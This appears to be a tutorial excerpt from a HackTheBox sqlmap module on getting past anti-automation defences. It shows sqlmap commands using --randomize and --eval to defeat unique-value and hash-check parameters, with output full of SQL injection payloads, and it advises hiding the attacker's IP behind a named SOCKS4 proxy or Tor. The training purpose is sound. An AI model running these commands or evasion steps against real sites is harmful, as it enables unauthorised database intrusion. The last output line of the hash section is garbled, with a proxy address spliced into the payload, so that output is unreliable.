 ## Unique Value Bypass

In some cases, the web application may only require unique values to be provided inside predefined parameters. Such a mechanism is similar to the anti-CSRF technique described above, except that there is no need to parse the web page content. So, by simply ensuring that each request has a unique value for a predefined parameter, the web application can easily prevent CSRF attempts while at the same time averting some of the automation tools. For this, the option `--randomize` should be used, pointing to the parameter name containing a value which should be randomized before being sent:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&rp=99954
URI: http://www.example.com:80/?id=1&rp=87216
URI: http://www.example.com:80/?id=9030&rp=36456
URI: http://www.example.com:80/?id=1.%2C%29%29%27.%28%28%2C%22&rp=16689
URI: http://www.example.com:80/?id=1%27xaFUVK%3C%27%22%3EHKtQrg&rp=40049
URI: http://www.example.com:80/?id=1%29%20AND%209368%3D6381%20AND%20%287422%3D7422&rp=95185
```

---

## Calculated Parameter Bypass

Another similar mechanism is where a web application expects a proper parameter value to be calculated based on some other parameter value(s). Most often, one parameter value has to contain the message digest (e.g. `h=MD5(id)`) of another one. To bypass this, the option `--eval` should be used, where a valid Python code is being evaluated just before the request is being sent to the target:


```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI

URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=1&h=c4ca4238a0b923820dcc509a6f75849b
URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

---

## IP Address Concealing

In case we want to conceal our IP address, or if a certain web application has a protection mechanism that blacklists our current IP address, we can try to use a proxy or the anonymity network Tor. A proxy can be set with the option `--proxy` (e.g. `--proxy="socks4://177.39.187.70:33283"`), where we should add a working proxy.
